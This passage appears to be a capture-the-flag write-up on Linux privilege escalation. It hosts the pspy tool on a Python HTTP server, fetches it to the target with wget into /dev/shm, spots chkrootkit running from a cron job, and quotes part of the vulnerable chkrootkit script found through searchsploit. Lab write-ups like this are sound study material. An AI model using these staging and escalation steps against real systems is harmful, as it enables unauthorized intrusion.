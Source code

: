 I transferred [pspy](https://github.com/DominicBreuker/pspy) which is a tool that allows for unprivileged linux process snooping which I used to see if any cron jobs were running.

First I copied pspy32 to my working directory and set up a python http server

```
cp ~/tools/pspy/pspy32 .
sudo python3 -m http.server 80
```

Using wget I download pspy to the target

```
wget http://10.10.14.18/pspy32 -O /dev/shm/pspy32
```

Running pspy32 shows that /usr/bin/chkrootkit is running frequently

![image](assets/83319730-f44ab500-a20e-11ea-821d-e094f3904b71.png)

Doing a searchsploit search for chkrootkit shows a local privilege escalation exploit.

![image](assets/83319805-a2565f00-a20f-11ea-947d-ba7216ca8ccc.png)

Examining the contents of the file (searchsploit -x 33899) provides some background about the vulnerability and how to exploit it.

```
...truncated...

slapper (){
   SLAPPER_FILES="${ROOTDIR}tmp/.bugtraq ${ROOTDIR}tmp/.bugtraq.c"
   SLAPPER_FILES="$SLAPPER_FILES ${ROOTDIR}tmp/.unlock ${ROOTDIR}tmp/httpd \
   ${ROOTDIR}tmp/update ${ROOTDIR}tmp/.cinik ${ROOTDIR}tmp/.b"a
   SLAPPER_PORT="0.0:2002 |0.0:4156 |0.0:1978 |0.0:1812 |0.0:2015 "
   OPT=-an
   STATUS=0
   file_port=

   if ${netstat} "${OPT}"|${egrep} "^tcp"|${egrep} "${SLAPPER_PORT}">
/dev/null 2>&1
      then
      STATUS=1
      [ "$SYSTEM" = "Linux" ] && file_port=`netstat -p ${OPT} | \
         $egrep ^tcp|$egrep "${SLAPPER_PORT}" | ${awk} '{ print  $7 }' |
tr -d :`
   fi
```